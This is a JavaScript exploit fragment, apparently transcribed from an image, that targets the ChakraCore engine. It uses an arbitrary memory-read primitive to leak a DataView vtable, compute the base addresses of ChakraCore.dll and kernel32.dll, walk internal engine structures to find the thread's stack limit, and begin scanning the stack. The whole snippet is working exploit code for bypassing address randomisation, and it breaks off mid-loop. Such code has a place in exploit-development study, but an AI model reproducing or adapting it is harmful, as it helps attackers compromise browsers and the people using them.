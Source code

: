 ```javascript
    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
    print("[+] Leaked stack from type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread!");
    print("[+] Stack leak: 0x" + hex(stackAddress[1]) + hex(stackAddress[0]));

    // Compute the stack limit for the current thread and store it in an array
    var stackLeak = new Uint32Array(0x10);
    stackLeak[0] = stackAddress[0] + 0xed000;
    stackLeak[1] = stackAddress[1];

    // Print update
    print("[+] Stack limit: 0x" + hex(stackLeak[1]) + hex(stackLeak[0]));

    // Scan the stack

    // Counter variable
    let counter = 0;

    // Loop
    while (counter < 0x10000)
    {
        // Store the contents of the stack
        tempContents = read64(stackLeak[0]+counter, stackLeak[1]);

        // Print update
```